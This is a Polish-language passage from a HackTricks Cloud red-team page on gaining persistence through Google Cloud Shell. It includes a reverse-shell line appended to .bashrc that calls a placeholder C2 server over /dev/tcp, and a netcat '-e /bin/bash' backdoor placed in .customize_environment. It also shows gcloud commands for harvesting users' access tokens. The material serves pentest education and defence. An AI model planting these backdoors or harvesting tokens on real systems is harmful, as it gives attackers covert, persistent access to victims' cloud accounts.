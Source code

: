 # GCP - Trwałość Cloud Shell

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repozytoria GitHub.

</details>

## Cloud Shell

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Trwała Tylna Furtka

[**Google Cloud Shell**](https://cloud.google.com/shell/) zapewnia dostęp do wiersza poleceń do zasobów chmurowych bezpośrednio z przeglądarki bez dodatkowych kosztów.

Możesz uzyskać dostęp do Cloud Shell Google'a z **konsoli internetowej** lub uruchamiając **`gcloud cloud-shell ssh`**.

Ta konsola ma kilka interesujących możliwości dla atakujących:

1. **Każdy użytkownik Google z dostępem do Google Cloud** ma dostęp do w pełni uwierzytelnionej instancji Cloud Shell (Konta usług mogą, nawet będąc właścicielami organizacji).
2. Wspomniana instancja **zachowa swoją katalog domowy przez co najmniej 120 dni**, jeśli nie wystąpi żadna aktywność.
3. Organizacja **nie ma możliwości monitorowania** aktywności tej instancji.

Oznacza to w zasadzie, że atakujący może umieścić tylną furtkę w katalogu domowym użytkownika i dopóki użytkownik co najmniej co 120 dni łączy się z GC Shell, tylna furtka przetrwa, a atakujący uzyska dostęp do powłoki za każdym razem, gdy zostanie uruchomiona, po prostu wykonując:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

W folderze domowym znajduje się inny plik o nazwie **`.customize_environment`**, który, jeśli istnieje, będzie **wykonywany za każdym razem**, gdy użytkownik uzyskuje dostęp do **cloud shell** (tak jak w poprzedniej technice). Wystarczy wstawić poprzednie tylne drzwi lub podobne, aby utrzymać trwałość tak długo, jak użytkownik "często" korzysta z cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ważne jest zauważenie, że **za pierwszym razem, gdy wykonywane jest działanie wymagające uwierzytelnienia**, w przeglądarce użytkownika pojawia się okno autoryzacji. To okno musi zostać zaakceptowane, zanim polecenie zostanie wykonane. Jeśli pojawi się nieoczekiwane okno, może to wzbudzić podejrzenia i potencjalnie narazić używaną metodę trwałości na ryzyko.
{% endhint %}

To jest okno pop-up po wykonaniu `gcloud projects list` z cloud shell (jako atakujący) widziane w sesji użytkownika przeglądarki:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Jednakże, jeśli użytkownik aktywnie korzystał z cloudshell, okno pop-up nie pojawi się i można **zbierać tokeny użytkownika za pomocą**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jak jest nawiązywane połączenie SSH

W zasadzie używane są te 3 wywołania API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (pozwoli Ci dodać swój klucz publiczny, który utworzyłeś lokalnie)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (pozwoli Ci uruchomić instancję)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (pokaże Ci adres IP chmury Google)

Ale możesz znaleźć więcej informacji na [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referencje

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* repozytoria na GitHubie.

</details>
